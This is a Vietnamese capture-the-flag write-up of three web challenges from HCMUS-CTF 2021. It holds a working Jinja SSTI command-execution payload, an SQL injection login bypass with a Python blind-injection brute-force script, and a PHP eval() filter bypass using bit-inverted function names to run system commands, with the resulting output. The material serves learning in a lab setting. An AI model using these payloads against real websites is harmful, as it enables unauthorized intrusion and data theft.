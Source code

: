 # WRITE-UP-HCMUS-CTF-2021
## 1. Nothingness
+ Lỗi: SSTI
+ Payload: <pre><code>{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}</code></pre>
+ ls ra 1 thư mục nữa thì thấy có file 'flag_HKOOS2lrdD'
+ Submit flag thôi: HCMUS-CTF{404_teMpl4t3_1njEctIon}

## 2. EasyLogin
+ Tìm cách đăng nhập admin. Thử <pre><code>admin' or 1=1--</code></pre> Thì ta nhận được được Nothing special
+ Order by thì biết được là SQLite3 và bảng này gồm 2 cột mình 
+ Thử union select 'admin', 2 Thì trang web trả về một tấm hình
+ Thử <pre><code>admin' or 1=2--</code></pre> thì nó vẫn ra tấm hình ban nãy -> Nếu đúng thì 'Nothing special' sai thì 'Well done' -> Burteforce
+ Brute tên bảng: 
<pre><code>
tbl_name = 'CREATE TABLE flagtablewithrandomname'
tbl = 'users, flagtablewithrandomname1'
sql = 'CREATE TABLE user(username, passw'
sql2 = ''
flag = ''
for i in range(1,50):
    for j in range(32,127):
        print(f"i\t\t{i}\t\t{j}",end='\r')
        resp = requests.post(url, data={
            "username": f"admin' or (select substr(flag,{i},1) FROM flagtablewithrandomname)=char({j})--",
            "passwd": "guest"
        })
        # print(resp.text)
        if "Nothing" in resp.text:
            flag += chr(j)
            print(f"tbl_name = {flag}")
            break 
</code></pre>
May mắn là tìm ra ngay flag lun:
+ ![image](https://user-images.githubusercontent.com/58381595/119288538-eccbb980-bc72-11eb-8b1f-e5d5e9401237.png)

# 3. SimpleCalculator
+ Sử dụng PHP eval() để thực hiện lệnh dc nhập vào -> WAF bypass
+ Chặn quote, alphabet và giới hạn kí tự-> sửa dụng '~' để đảo bit
+ ![image](https://user-images.githubusercontent.com/58381595/119289646-2a314680-bc75-11eb-9e46-b204ac314818.png)
+ Thử đảo phpinfo thành ' %8F%97%8F%96%91%99%90 ' rồi gửi ' (~%8F%97%8F%96%91%99%90)() ' Thì quả thật lệnh phpinfo() đã được thực hiện
+ system('ls -l') xem có gì nào : (~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D2%93)
> Warning: Use of undefined constant ���ғ - assumed '���ғ' (this will throw an Error in a future version of PHP) in /var/www/html/index.php(21) : eval()'d code on line 1
total 4 -rwxrw-r--. 1 www-data root 856 May 18 11:52 index.php drwxr-xr-x. 1 www-data root 23 May 18 11:52 static drwxr-xr-x. 1 www-data root 23 May 18 11:52 static
+ Ra ngoài gốc lun xem có gì
> Warning: Use of undefined constant ���ғ�� - assumed '���ғ��' (this will throw an Error in a future version of PHP) in /var/www/html/index.php(21) : eval()'d code on line 1
total 4 drwxr-xr-x. 1 root root 28 May 12 12:48 bin drwxr-xr-x. 2 root root 6 Mar 19 23:44 boot drwxr-xr-x. 5 root root 360 May 23 13:13 dev drwxr-xr-x. 1 root root 66 May 23 13:13 etc -rwxrw-r--. 1 root root 25 May 18 11:52 fl4ggggH3reeeeeeeeeee drwxr-xr-x. 2 root root 6 Mar 19 23:44 home drwxr-xr-x. 1 root root 21 May 12 12:48 lib drwxr-xr-x. 2 root root 34 May 11 00:00 lib64 drwxr-xr-x. 2 root root 6 May 11 00:00 media drwxr-xr-x. 2 root root 6 May 11 00:00 mnt drwxr-xr-x. 2 root root 6 May 11 00:00 opt dr-xr-xr-x. 580 root root 0 May 23 13:13 proc drwx------. 1 root root 6 May 12 13:41 root drwxr-xr-x. 1 root root 36 May 23 13:13 run drwxr-xr-x. 1 root root 20 May 12 12:48 sbin drwxr-xr-x. 2 root root 6 May 11 00:00 srv dr-xr-xr-x. 13 root root 0 May 11 11:41 sys drwxrwxrwt. 1 root root 6 May 12 13:41 tmp drwxr-xr-x. 1 root root 19 May 11 00:00 usr drwxr-xr-x. 1 root root 17 May 12 12:43 var drwxr-xr-x. 1 root root 17 May 12 12:43 var
+ system('nl /*') -> Flag: HCMUS-CTF{d4ngErous_eVal}
